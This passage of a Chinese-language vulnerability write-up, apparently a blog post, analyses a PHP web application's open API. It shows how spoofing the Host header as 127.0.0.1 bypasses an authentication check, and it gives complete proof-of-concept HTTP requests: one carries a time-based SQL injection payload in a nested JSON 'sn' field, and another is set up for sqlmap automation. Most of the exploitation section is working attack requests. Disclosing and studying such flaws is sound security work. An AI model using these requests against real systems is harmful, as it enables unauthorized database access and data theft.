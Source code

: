 继续看代码发现 这个类的父类中存在一个鉴权  但是分析代码可知 Host 是127.0.0.1 或 192.168.x.x 的范围就可以绕过验证 。  
  
```
public function initAction()  {      $this->display= false;      $openkey      = $this->post('openkey');      $this->openkey     = getconfig('openkey');      if($this->keycheck && HOST != '127.0.0.1' && !contain(HOST,'192.168') && $this->openkey != ''){         if($openkey != md5($this->openkey))$this->showreturn('', 'openkey not access', 201);      }      $this->getpostdata();  }
```  
  
按照路由构造请求url  
  
  
/index.php?m=opendkq|openapi&d=task&a=zktime  
  
  
按照sn的取值 构造两层json  
  
  
{"cn":{"sn":"123"}}  
  
  
host 为127.0.0.1  
  
### 漏洞利用  
  
#### poc  
  
```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848Connection: closeContent-Length: 34Content-Type: application/x-www-form-urlencoded{"cn":{"sn":"123' and sleep(3)#"}}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGOr0xiaBSeDhq72TyQMIBudajAVibfuluibIJ97T1RYibAef3mlia1ZkCgMA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwG2KicCOm2TcDNjOVmdCyr5Wtw9BAiaQdBVtSCANnyBicuBFIG0iaI5v9zRA/640?wx_fmt=png&from=appmsg "")  
  
#### sqlmap  
  
  
sqlmap  结合burp  修改host  
  
```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1Host: 127.0.0.1Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848Connection: closeContent-Length: 34Content-Type: application/x-www-form-urlencoded{"cn":{"sn":"123'*"}}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWX4v9F2NPPB61D4zzTw2KwGPiayECYjaicmuk6CqkrsDqxxOtj6ywafF41rN3RkwalMEaKkFSfbibCzw/640?wx_fmt=png&from=appmsg "")  
  